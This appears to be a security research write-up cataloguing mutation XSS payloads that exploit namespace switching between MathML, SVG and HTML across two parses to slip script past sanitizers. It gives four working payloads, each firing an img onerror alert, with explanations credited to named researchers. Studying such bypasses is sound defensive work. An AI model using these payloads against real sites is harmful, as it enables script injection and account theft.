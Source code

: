 

### SVG to HTML switch:  Daniel Santos @bananabr
**Description:**
- Another variation of the SecurityMB exploit involves a different switch, converting the style tag from the SVG namespace into the HTML namespace. This version uses two mtext elements, with the second mtext ensuring that the payload to stay in the HTML namespace for first parsing *<mtext><style><x id="&lt;/style><img onerror=alert(1) src>">.*
- During the second parsing, when the form is removed, elements mtext > mglyph > svg > mtext will all be within the MathML namespace as mglyph child will be mathml until html namespace element comes. And the second mtext, the style tag transitions back into the HTML namespace, allowing the malicious code within the style tag to execute.


**Payload:** 
```html
<form><math><mtext></form><form><mglyph><svg><mtext><style><x id="&lt;/style><img onerror=alert(1) src>">
```

### Gareth: Switch MATHML style to HTML style added with comment trick
**Payload:**
```<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;img src=1 onerror=alert(1)&gt;">```

**Description**:
- *1st Pass (P(D))*: During the first pass, the table moves(forstering parent) the mglyph element right beside the mtext, resulting in a structure like <math><mtext><mglyph>. At this stage, both mglyph and style are in the HTML namespace, so comments within the style tag are ignored, and HTML entities are decoded normally.
- *2nd Pass (P(P(D)))*: In the second parsing, mglyph is reinterpreted within the MathML namespace since it's adjacent to mtext. As a result, the style tag also switches to the MathML namespace. Now, in the MathML context, comments inside the style tag are no longer ignored. This causes the comment to be closed inside the title, and the hidden payload is executed.

#### Some other variant

*Switch: SVG style to HTML *

**Payload:**
```html
<math><mtext><a title='one'><audio>aa<altglyphdef><animatecolor><filter><fieldset><a title='two'></fieldset>ccd</a>gg<mglyph><svg><mtext><style><a title='</style><img src=# onerror=alert(1)>'>
```
**Description**: Since <a> tags cannot be nested, they are initially treated together but later become sibling elements. The second <a> tag brings subsequent <mglyph> elements as children of <mtext>. As a result, <mtext> initially inside a <style> tag is reinterpreted as MathML <mtext> because it becomes a child of an SVG's <mglyph>.


### By someone
**Switch: SVG style to HTML**
*Payload:*
```html
 <math><mtext><h1><a><h6></a></h6><mglyph><svg><mtext><style><a title="</style><img src onerror='alert(1)'>"></style>
```
**Description:**
Since `<h>` tags (e.g., `<h1>`, `<h6>`) cannot be nested, they are separated and become sibling elements. In the first parse (P(D)), `<mtext>` is nested within an SVG, but in the second parse (P(P(D))), a mutation occurs where `<mglyph>` becomes a direct child of `<mtext>` (top). This causes the `<mtext>` (bottom), initially in SVG in P(D), to be reinterpreted as a MathML `<mtext>` in P(P(D)).
